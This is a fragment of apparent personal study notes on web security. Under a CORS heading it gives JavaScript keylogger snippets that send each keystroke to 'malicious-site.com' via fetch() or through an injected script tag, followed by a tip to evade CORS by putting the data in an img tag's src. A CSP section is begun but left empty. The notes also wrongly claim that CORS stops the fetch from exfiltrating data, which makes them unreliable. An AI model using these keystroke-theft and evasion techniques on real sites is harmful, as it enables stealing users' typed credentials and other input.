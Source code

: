 

## CORS(Cross-Origin Resource Sharing)
- `fetch(https://malicious-site.com)` fails due to cross origin resource sharing

### Doesn't work
- Key logger

```javascript
document.addEventListener('keydown', (event) => {
	fetch("https://malicious-site.com?key=" + event.key)
})
```
This is blocked by CORS

```javascript
document.addEventListener('keydown', (event) => {
    const script = document.createElement('script');
    script.src = 'http://localhost:3000/?xss=' + encodeURIComponent(event.key);
    document.body.appendChild(script);
});
```

### How to get around CORS?
- Insert img tag with src of your malicious site with the data payload in it.
- 


## CSP(Content Security Policy)